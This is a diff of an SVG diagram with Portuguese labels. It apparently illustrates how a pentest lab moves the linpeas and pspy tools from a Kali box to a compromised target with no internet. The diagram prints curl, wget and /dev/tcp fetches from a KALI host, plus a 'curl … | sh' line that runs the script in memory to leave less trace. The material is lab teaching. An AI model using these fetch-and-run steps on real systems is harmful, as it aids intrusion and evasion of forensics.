

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 920 420" role="img" aria-labelledby="t2 d2">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 470" width="960" height="470" role="img" aria-labelledby="t2 d2">
  <style>
-     text { font-family: ui-monospace, "DejaVu Sans Mono", Menlo, Consolas, monospace; fill: #e6ede8; }
-     .t { font-size: 16px; font-weight: 700; }
-     .h { font-size: 13px; font-weight: 700; fill: #5cc8d8; }
-     .item { font-size: 10.5px; fill: #cfe0d6; }
-     .sub { font-size: 10px; fill: #9fb0a6; }
-     .box { fill: #16201b; stroke: #2c3a33; stroke-width: 1.5; }
-     .netbox { fill: #141d2a; stroke: #3a4a5a; stroke-width: 1.5; stroke-dasharray: 5 4; }
-     .flow { stroke: #5cc8d8; stroke-width: 2.5; fill: none; marker-end: url(#ac2); }
-     .back { stroke: #5ee08a; stroke-width: 2; fill: none; stroke-dasharray: 6 4; marker-end: url(#ag2); }
-     .warn { font-size: 11px; font-weight: 700; fill: #e0b23c; }
-     .mem { font-size: 10.5px; font-weight: 700; fill: #5ee08a; }
+     text { font-family: 'SF Mono','Fira Code','Cascadia Code','Courier New',monospace; fill: #e2e8f0; }
+     .title { font-size: 19px; font-weight: 700; }
+     .sub { font-size: 12.5px; fill: #94a3b8; }
+     .h { font-size: 14px; font-weight: 700; }
+     .item { font-size: 11px; fill: #cbd5e1; }
+     .cmd { font-size: 10.5px; fill: #a5f3cf; }
+     .block { font-size: 13px; font-weight: 700; fill: #f87171; }
+     .leg { font-size: 11px; fill: #94a3b8; }
+     .note { font-size: 11px; fill: #94a3b8; }
  </style>
  <defs>
-     <marker id="ac2" markerWidth="10" markerHeight="10" refX="8" refY="4.5" orient="auto">
-       <path d="M0,0 L9,4.5 L0,9 z" fill="#5cc8d8" />
+     <linearGradient id="bg-grad" x1="0%" y1="0%" x2="100%" y2="100%">
+       <stop offset="0%" stop-color="#0f0f1a" />
+       <stop offset="100%" stop-color="#1a1a2e" />
+     </linearGradient>
+     <marker id="arrow-green" markerWidth="9" markerHeight="7" refX="7.5" refY="3.5" orient="auto">
+       <polygon points="0 0, 9 3.5, 0 7" fill="#10b981" />
    </marker>
-     <marker id="ag2" markerWidth="10" markerHeight="10" refX="8" refY="4.5" orient="auto">
-       <path d="M0,0 L9,4.5 L0,9 z" fill="#5ee08a" />
+     <marker id="arrow-red" markerWidth="9" markerHeight="7" refX="7.5" refY="3.5" orient="auto">
+       <polygon points="0 0, 9 3.5, 0 7" fill="#ef4444" />
    </marker>
  </defs>
-   <rect width="920" height="420" fill="#121815" />
-   <text class="t" x="30" y="32">Transferir a ferramenta para um alvo sem internet</text>
-   <rect class="box" x="30" y="70" width="250" height="150" rx="8" />
-   <text class="h" x="50" y="98">Attack box (Kali)</text>
-   <text class="item" x="50" y="126">Serve o arquivo por HTTP:</text>
-   <text class="item" x="50" y="150">$ python3 -m http.server 8000</text>
-   <text class="sub" x="50" y="176">linpeas.sh e pspy64 ficam</text>
-   <text class="sub" x="50" y="192">na pasta servida (já baixados</text>
-   <text class="sub" x="50" y="208">antes, pelo terminal)</text>
-   <rect class="netbox" x="330" y="70" width="200" height="150" rx="8" />
-   <text class="h" x="350" y="98" fill="#8fa6bf">Rede do lab</text>
-   <text class="warn" x="350" y="126">SEM internet</text>
-   <text class="sub" x="350" y="150">o alvo não baixa</text>
-   <text class="sub" x="350" y="166">nada de fora —</text>
-   <text class="sub" x="350" y="182">só enxerga a Kali</text>
-   <rect class="box" x="580" y="70" width="310" height="150" rx="8" />
-   <text class="h" x="600" y="98">Alvo (foothold de baixo privilégio)</text>
-   <text class="item" x="600" y="126">$ curl http://KALI:8000/linpeas.sh -o /tmp/l.sh</text>
-   <text class="item" x="600" y="150">$ wget http://KALI:8000/pspy64 -O /tmp/p</text>
-   <text class="sub" x="600" y="176">sem curl/wget? use o bash builtin:</text>
-   <text class="item" x="600" y="196">exec 3&lt;&gt;/dev/tcp/KALI/8000 ...</text>
-   <path class="flow" d="M280,130 L328,130" />
-   <path class="flow" d="M530,130 L578,130" />
-   <path class="back" d="M735,220 C735,300 400,300 300,300" />
-   <text class="mem" x="300" y="330">rodar da memória, sem gravar em disco (menos rastro):</text>
-   <text class="item" x="300" y="352">$ curl http://KALI:8000/linpeas.sh | sh</text>
-   <text class="warn" x="30" y="400">regra do lab: ligar um lab nunca usa a internet; baixar imagens/ferramentas é só pelo terminal.</text>
+   <rect width="960" height="470" fill="url(#bg-grad)" />
+   <text class="title" x="40" y="40">Levar a ferramenta a um alvo sem internet</text>
+   <text class="sub" x="40" y="62">A Kali serve o arquivo; o alvo o puxa pela rede interna — nunca pela internet.</text>
+   <rect x="690" y="88" width="230" height="56" rx="6" fill="#2a1216" stroke="#ef4444" stroke-width="1.5" stroke-dasharray="6 4" />
+   <text class="h" x="805" y="112" text-anchor="middle" fill="#f87171">Internet</text>
+   <text class="block" x="805" y="132" text-anchor="middle">✗ bloqueada para o alvo</text>
+   <path d="M805,144 L805,196" stroke="#ef4444" stroke-width="2" stroke-dasharray="6 4" fill="none" marker-end="url(#arrow-red)" />
+   <g stroke="#ef4444" stroke-width="2.5">
+     <path d="M792,164 L818,182" />
+     <path d="M818,164 L792,182" />
+   </g>
+   <rect x="40" y="196" width="260" height="150" rx="6" fill="#06281d" stroke="#10b981" stroke-width="1.8" />
+   <text class="h" x="60" y="224" fill="#34d399">Kali (sua máquina)</text>
+   <text class="item" x="60" y="250">Serve o arquivo por HTTP:</text>
+   <text class="cmd" x="60" y="272">$ python3 -m http.server 8000</text>
+   <text class="item" x="60" y="300" fill="#94a3b8">linpeas.sh e pspy64 já estão</text>
+   <text class="item" x="60" y="318" fill="#94a3b8">na pasta servida (baixados</text>
+   <text class="item" x="60" y="336" fill="#94a3b8">antes, pelo terminal)</text>
+   <rect x="372" y="196" width="216" height="150" rx="6" fill="#0f172a" stroke="#475569" stroke-width="1.5" stroke-dasharray="5 4" />
+   <text class="h" x="480" y="252" text-anchor="middle" fill="#cbd5e1">Rede do lab</text>
+   <text class="block" x="480" y="276" text-anchor="middle">sem internet</text>
+   <text class="item" x="480" y="302" text-anchor="middle" fill="#94a3b8">o alvo só enxerga</text>
+   <text class="item" x="480" y="320" text-anchor="middle" fill="#94a3b8">a Kali</text>
+   <rect x="660" y="196" width="260" height="150" rx="6" fill="#0f172a" stroke="#334155" stroke-width="1.8" />
+   <text class="h" x="680" y="224">Alvo (foothold)</text>
+   <text class="item" x="680" y="250">Puxa o arquivo da Kali:</text>
+   <text class="cmd" x="680" y="272">$ curl http://KALI:8000/linpeas.sh</text>
+   <text class="cmd" x="680" y="290">$ wget http://KALI:8000/pspy64</text>
+   <text class="item" x="680" y="316" fill="#94a3b8">sem curl/wget? bash builtin:</text>
+   <text class="cmd" x="680" y="334">$ exec 3&lt;&gt;/dev/tcp/KALI/8000</text>
+   <path d="M300,271 L372,271" stroke="#10b981" stroke-width="2.5" fill="none" marker-end="url(#arrow-green)" />
+   <path d="M588,271 L660,271" stroke="#10b981" stroke-width="2.5" fill="none" marker-end="url(#arrow-green)" />
+   <text class="leg" x="480" y="226" text-anchor="middle" fill="#34d399">serve → alvo puxa</text>
+   <text class="note" x="40" y="388" fill="#34d399">Pode rodar da memória, sem gravar em disco (menos rastro):</text>
+   <text class="cmd" x="40" y="408">$ curl http://KALI:8000/linpeas.sh | sh</text>
+   <rect x="560" y="376" width="14" height="14" rx="3" fill="#06281d" stroke="#10b981" stroke-width="1.5" />
+   <text class="leg" x="582" y="387">caminho permitido (rede interna)</text>
+   <rect x="560" y="398" width="14" height="14" rx="3" fill="#2a1216" stroke="#ef4444" stroke-width="1.5" />
+   <text class="leg" x="582" y="409">bloqueado (internet)</text>
</svg>
